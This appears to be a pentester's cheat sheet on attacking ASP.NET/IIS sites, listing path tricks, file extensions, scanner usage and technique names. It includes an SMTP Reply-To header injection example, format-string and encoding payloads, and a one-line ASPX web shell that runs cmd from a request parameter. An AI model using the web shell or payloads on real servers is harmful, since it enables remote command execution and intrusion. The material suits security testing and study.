 
## Enumeration

### Directories
- C:\Windows\System32
- \\Host\C$\Windows\System32
- \\.\C:\Windows\System32
- \\?\C:\Windows\System32
- \\?\UNC\Host\C$\Windows\System32
- C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
- C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
- FileName.aspx == FileName.aspx:.jpg
- http://hostname/*Resource.axd?d=<resourceId>&t=<timestamp>
### Files Extensions
- .asp
- .aspx
- .ashx
- .xsd
- .disco
- .discomap
- .wsdl
- .wadl
- .asmx
- .xml
- .config
- .zip
- .txt

## Techniques

### Short Names
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
`java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
>PS. ignore “global”, “master”, “default”, “aspnet” from results

### Viewstate
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com/r/nReply-to:hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
...
В итоге будет внедрен новый заголовок:
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com
Reply-To: hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>

### XXE in DocX
### padding oracle (cookies / viewstate …)
Injection (sql with sqlNinja, js, html…)
NUL:  /  CON:  /  AUX:  /  PRN:  /   %%
Endings: name = name… = name \\\
Format strings attack
%n%n%n%n%n%n%n%n
%s%s%s%s%s%s%s%s%s
%d%d%d%d%d%d%d%d
Canonicalization attack
%C1%81 = overlong UTF-8 for “A”
&gt; = HTML encoded “>”
%41 = Hex for “A”
%windir%notepad.exe = using environment variables to represent path
C:wondowsnotepad.exe. = trailing “.”
C:Progra~1Longf~1.txt = short names
Redirect
Create file: \\URL\<name>		\\URL\pipe\<name>
Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
LFI
<%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>
LINQ injection
Trace method
Session fixation 
Replay attacks
CORS
Serialization

References
https://www.youtube.com/watch?v=HrJW6Y9kHC4 
https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
Positive technologies
